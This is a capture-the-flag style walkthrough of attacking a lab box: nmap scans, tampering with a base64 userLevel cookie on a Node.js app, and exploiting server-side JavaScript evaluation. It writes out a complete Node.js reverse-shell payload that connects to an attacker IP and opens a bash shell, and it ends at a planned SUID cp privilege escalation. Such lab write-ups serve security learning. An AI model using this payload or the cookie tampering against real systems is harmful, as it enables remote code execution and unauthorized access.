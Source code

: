 First we start with nmap scan

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v 192.168.108.110`

```
# Nmap 7.93 scan initiated Thu Dec 29 10:18:40 2022 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v 192.168.108.110
Nmap scan report for 192.168.108.110
Host is up (0.20s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
3000/tcp  open  ppp
27017/tcp open  mongod

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec 29 10:19:21 2022 -- 1 IP address (1 host up) scanned in 41.77 seconds
```

Got few ports open, let's run nmap script to know the services running on these ports.

```
# Nmap 7.93 scan initiated Thu Dec 29 10:23:33 2022 as: nmap -sC -sV -oN normal.tcp -p 21,22,80,3000,27017 -Pn 192.168.108.110                                        
Nmap scan report for 192.168.108.110                                               
Host is up (0.30s latency).                                                        
                                                                                   
PORT      STATE SERVICE VERSION                                                                                                                                       
21/tcp    open  ftp     vsftpd 3.0.3                                                                                                                                  
| ftp-syst:                                                                        
|   STAT:                                                                                                                                                             
| FTP server status:                                                               
|      Connected to 192.168.49.108                                                                                                                                    
|      Logged in as ftp                                                            
|      TYPE: ASCII                                                                                                                                                    
|      No session bandwidth limit                                                                                                                                     
|      Session timeout in seconds is 300                                                                                                                              
|      Control connection is plain text                                                                                                                               
|      Data connections will be plain text                                         
|      At session startup, client count was 2                                                                                                                         
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                            
|_End of status                                                                    
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                             
|_Can't get directory listing: TIMEOUT                                                                                                                                
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)                                 
| ssh-hostkey:                                                                     
|   3072 9d3feb1baa9c1eb1309b23534bcf5975 (RSA)                                    
|   256 cddc05e6e3bb1233f7097450128a8564 (ECDSA)                                   
|_  256 a0901f5078b39e412a7f5c6f4d0ea1fa (ED25519)                                 
80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))                             
| http-robots.txt: 22 disallowed entries (15 shown)                                                                                                                   
| /core/ /profiles/ /README.txt /web.config /admin/                                
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/                                                                                                    
| /user/password/ /user/login/ /user/logout/ /index.php/admin/                     
|_/index.php/comment/reply/                                                        
|_http-server-header: Apache/2.4.46 (Fedora)                                                                                                                          
|_http-generator: Drupal 9 (https://www.drupal.org)                                                                                                                   
|_http-title: Home | Hacking Articles                                              
3000/tcp  open  http    Node.js (Express middleware)                                                                                                                  
|_http-title: Site doesn't have a title (text/html; charset=utf-8). 
27017/tcp open  mongodb MongoDB 4.2.9                                                                                                                                 
| mongodb-info:                                                                                                                                                       
|   MongoDB Build info                                                             
|     gitVersion = 06402114114ffc5146fd4b55402c96f1dc9ec4b5                        
|     bits = 64                                                                    
|     sysInfo = deprecated                                                                                                                                            
|     allocator = tcmalloc                                                                                                                                            
|     buildEnvironment                                                             
|       target_os = linux                                                                                                                                             
|       ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-ty
pedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-const-variable -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-bui
ltin-memcmp                                                                        
|       distmod = rhel70                                                                                                                                              
|       cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -fsized-deallocation -std=c++17                                                                      
|       cc = /opt/mongodbtoolchain/v3/bin/gcc: gcc (GCC) 8.2.0                                                                                                        
|       target_arch = x86_64                                                                                                                                          
|       cxx = /opt/mongodbtoolchain/v3/bin/g++: g++ (GCC) 8.2.0                    
|       linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -
Wl,--warn-execstack -Wl,-z,relro.
| mongodb-databases: 
|   ok = 1.0
|   totalSize = 307200.0
|   databases
|     0
|       name = account-app
|       sizeOnDisk = 131072.0
|       empty = false
|     3
|       name = local
|       sizeOnDisk = 73728.0
|       empty = false
|     2
|       name = config
|       sizeOnDisk = 61440.0
|       empty = false
|     1
|       name = admin
|       sizeOnDisk = 40960.0
|_      empty = false
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 29 10:24:30 2022 -- 1 IP address (1 host up) scanned in 56.71 seconds
```

After much enum done on port 21, 80. i got nothing so i decide to enumerate port 3000 http node.js.

![image](https://user-images.githubusercontent.com/87468669/209940567-572bbc8c-5f02-452f-91f7-1c5be7e944a0.png)

Got to see what is running on the web server. checking the source page got nothing, so i created an acct.

![image](https://user-images.githubusercontent.com/87468669/209940799-ba896ea4-4571-48f1-9ebb-709a2f5b9914.png)

create an acct and hit register button and login.

![image](https://user-images.githubusercontent.com/87468669/209941501-d6ec5e4d-af89-4122-8199-e3ad7dc42520.png)

go to eventlogs, which allows users to create tickets so i tried to create a ticket as a regular user and intercepted the request using burp.

![image](https://user-images.githubusercontent.com/87468669/209942562-7dcfa340-520d-4bc3-a649-213fc86ba97d.png)

I noticed there are 4 interesting parameters: (conenct.sid cookie, userLevel that has a base64 value which was decoded to default, username and msg )

![image](https://user-images.githubusercontent.com/87468669/209942978-139e1840-742c-456d-a598-720c153a65e4.png)

I change the value of userlevel: to admin in base64 and Then, I tried passing encoded arithmetic operations like 3*3 in the parameters to see if the application would evaluate them.

![image](https://user-images.githubusercontent.com/87468669/209943175-c656917d-1fc6-4a5a-8d64-ae196f0e5593.png)

Bull's eye we got evaluation for the arthimetic operation. Now, we have identified that the application executes JavaScript code on the back-end, it is time to weaponize it. We will use a NodeJS reverse shell and see if we get a connection back to our machine. The code below creates a function that calls the JS child_process module with the require function, creating new child processes of the main Node.js process.

Then it uses the spawn function to pass the shell commands; in our case is a bash shell that gets executed in the newly created child processes. And, finally, it creates a new connection with the port number and IP address of the attacking machine and piping the shell’s stdin (input) and piping out the client’s output (stdout).

```
(function(){     
 var net = require("net"),         
       cp = require("child_process"),         
       sh = cp.spawn("/bin/bash", []);     
  var client = new net.Socket();
 
  //create connection to the attacking machine
  client.connect(80, "192.168.49.243", function(){         
      client.pipe(sh.stdin);         
      sh.stdout.pipe(client);        
      sh.stderr.pipe(client); 
  });     
  return /a/; 
})()%
```

![image](https://user-images.githubusercontent.com/87468669/209944576-2ef1ab90-e437-4781-9cfe-23ea1e1f376d.png)

Send the payload in url encoding, and Boom got shell as user benjamin.

![image](https://user-images.githubusercontent.com/87468669/209944899-aba89f8f-73d0-4748-9c8f-e5088e73a3f2.png)

Stabilize the shell and check for suid, `/usr/bin/cp` is an suid bin, so let's excalate privs with it.




